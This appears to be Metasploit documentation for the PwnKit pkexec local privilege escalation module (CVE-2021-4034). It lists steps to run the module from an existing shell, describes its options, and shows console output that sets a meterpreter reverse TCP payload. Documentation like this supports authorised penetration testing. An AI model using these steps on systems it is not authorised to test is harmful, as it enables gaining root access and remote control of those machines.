 ## Verification

* Start `msfconsole`
* Get a non-root shell/meterpreter
* use `exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec`
* set SESSION `<session-id>`
* set LHOST `<lhost-IP>`
* `run`

## Options


### WRITEABLE_DIR
This indicates the location where you would like the payload and exploit stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### PKEXEC_PATH
This indicates the location of the `pkexec` binary.  Normally, the module can find the it without help.
It defaults to nil.

## Advanced Options

### FinalDir
This indicates the starting directory for the new root-enabled session.  The module deletes the working directory
out from under the running payload, so the current working directory for the new session will not exist, and that
can result in odd errors, so we just change to a directory that does exist before user interaction.
It defaults to `/`

## Scenarios

```
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > show options

Module options (exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PKEXEC_PATH                    no        The path to pkexec binary
   SESSION       1                yes       The session to run this module on
   WRITABLE_DIR  /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   x86_64


```